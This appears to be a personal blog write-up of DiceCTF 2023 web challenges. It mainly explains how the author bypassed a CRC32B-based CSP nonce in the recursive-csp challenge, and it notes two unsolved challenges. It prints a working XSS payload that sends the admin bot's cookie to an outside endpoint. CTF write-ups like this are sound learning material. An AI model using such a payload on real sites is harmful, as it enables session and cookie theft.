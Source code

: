 ```yaml
---
title: "DiceCTF 2023 Writeup"
date: 2023-02-11T09:47:42-08:00
description: My DiceCTF challenge experiences. What I learned and what cool things I found out.
images:
  - images/2023-02-11/solved-screenshot.png
tags:
  - ctf
  - security
type: post
---
```


Hello! 

DiceGang 🎲 just finished hosting DiceCTF 2023 (https://ctf.dicega.ng). It was first my first ever CTF event. I didn't really have any expectations going in and signed up on a whim. But guess what? I managed to solve one of the challenges and even gave a couple others a shot. I learned a ton from this event, and I'm definitely going to attend more CTF events in the future.

Here are my write ups.

### web/recursive-csp
* solved
* solves: 178
* description: the nonce isn't random, so how hard could this be? (the flag is in the admin bot's cookie)

We are greeted with a simple Hello World and a input for name. The form is simple, it will submit a `GET` request with `name` as query parameter. The new page's title changed from "Hello world! to "Hello andy!".

{{< figure
    src="/images/2023-02-11/hello-world.png"
    alt="A screenshot of the recursive-csp challenge."
>}}

This was screaming XSS to me, so I just randomly inputting possible XSS attacks. But none of the `<script>` code was executing. Looking at the console error, it was blocked by the CSP header.
```
Content Security Policy: The page’s settings blocked the loading of a resource at inline (“script-src”).
```

The CSP header (`content-security-policy: default-src 'none'; script-src 'nonce-fe26ee76' 'unsafe-inline'; base-uri 'none';`) is only allowing script with particular nonce! This matches up with the hint. I started looking at how the nonce is generated by the server. At the first, I thought it was using the whole document or the date time as the input for hashing, and then only to realized that only the `name` parameter was used for input. It made so much sense to just use the input, this took way longer than I want to admit. 

Now I know what the server was using for the input, I needed to know what kind of algorithm it is using. The nonce was always 8 characters so I started looking at any algorithm that will output 8 characters. I spent a long time on searching this. I didn't know many hashing or encoding function except the basics: md5, sha256, etc. Until I finally found a site: https://md5calc.com. I used it to test md5 and other algorithms I know. What's cool about this site is that it outputs string encoded with other popular algorithms. This is how I found "CRC32B" hashing function.

> Future self here: it seems like CRC32B is a common hashing function provided by PHP. If only I could google what kind of hashing function php provides.

Now I know how the server generate the nonce, I just need to somehow force it to match with my XSS. I wrote a simple js script to output `<script nonce="{input}">alert(1)</script>` where I replaced the "{input}" with a 8 characters random string and hoped the CRC32B hashing will return the same thing. My script didn't work and I was stuck. It was not able even brute force one match for me. I ran the script for half an hour but no luck. 

I began searching online for a way to brute force it, and luckily stumbled upon this blog post by [Nayuki] https://www.nayuki.io/page/forcing-a-files-crc-to-any-value. The blog explains in details how the math works. To summarize it, the script adds 4 extra bytes to match the provided hash. This was really cool. I experimented with the script and found out some bytes that are injected are not URI friendly so I have to re-hash it again with a different value. 

At the end, I wrote a script to generate the hash. The flag was in admin bot's cookie so I had to update the script to send the cookie to an endpoint I control. Since CSP prevents any network requests for sending the cookie, I used `document.location` to change the URL in admin bot and hoped that it would redirect before it close the headless browser. To my surprise it worked. 

Here is my final payload. I injected the random 4 bytes at the end (`u091`). You can check the hash, it should match to `55ed1ba5`.
```html
<script nonce="55ed1ba5">document.location="https://adice.free.beeceptor.com?c="+document.cookie</script>  uO91
```

> Future self here: `https://beeceptor.com` was a site I used to get a temporary endpoint. However, reading everyone else's write up it seemed like `https://webhook.site` is what people usually use. 

This is the flag I got at the end, `dice{h0pe_that_d1dnt_take_too_l0ng}`. Honestly, I faced a lot of difficulties during the whole challenge: figuring out the hash algorithm, troubleshooting why the random bytes weren't working in the URL, and understanding how the admin bot operates. It took me roughly 15 hours to solve this challenge, but even if I hadn't solve it, it would still have been worth the effort. The amount of joy when I saw the flag was indescribable.

{{< figure
    src="/images/2023-02-11/solved-screenshot.png"
    alt="A solved screenshot for recursive-csp challenge in dashboard view."
>}}

Here is the author [strellic]'s [write up](https://brycec.me/posts/dicectf_2023_challenges). He wrote a simple rust program to force the output which is much faster than my javascript version! Additionally, he created three more awesome challenges that are worth checking out!


## Unsolved challenge 

I attempted other challenges but couldn't solve them. Here are notes to myself for studying and documenting what I attempted.

### web/scorescope
* solves: 55
* description: I'm really struggling in this class. Care to give me a hand?

This challenge has a file named `template.py`, we need to implement all the functions and upload to the site for grading. It felt like university homework. The test cases included a `hidden` case so users couldn't guess it anyway. I couldn't solve this. I don't use python regularly. But here is a good [write up by r3kapig](https://r3kapig.com/writeup/20230206-DiceCTF2023-EN/).

I learned a lot about exposing what the main module has and how to manipulate it.

### web/codebox
* solves: 30
* description: strellic makes csp challs, maybe i should try one sometime

This is another really cool challenge with CSP. It uses `report-uri` to leak information to an external server. It also uses a cool trick with how `URL().searchParams.get()` and `express`'s `req.query` parse multiple parameters with the same key. `URL` uses the first and `express` uses the last. This blew my mind 🤯. I didn't know even think this was possible, I assume everything follow a standard.

[r3kapig](https://r3kapig.com/writeup/20230206-DiceCTF2023-EN/)'s write up has a detail explanation on how the challenge worked and how they solved it.


## Conclusion

This was my first ever CTF event, I am really proud that I even solved 1 challenge. I learned a lot by participating the event. Also, thank you to the DiceGang staff in teh discord chat. I didn't really know how to use the admin bot so I was asking weird questions about it.

Here are things that I learned:
* Amazing people/groups to follow: [strellic], [ankursundara], [r3kapig], [Nayuki], and [dicegang]
* Content Security Policy header and how to use it.
* CRC32 hashing algorithm.
* [pwntool](https://github.com/Gallopsled/pwntools) to interact with server. Useful for scripting and parsing the output.


There are plenty more things that I won't list here. That's about it, thank you for reading. 

[strellic]: https://twitter.com/Strellic_
[ankursundara]: https://twitter.com/ankursundara
[r3kapig]: https://twitter.com/r3kapig
[Nayuki]: https://www.nayuki.io
[dicegang]: https://twitter.com/dicegangctf
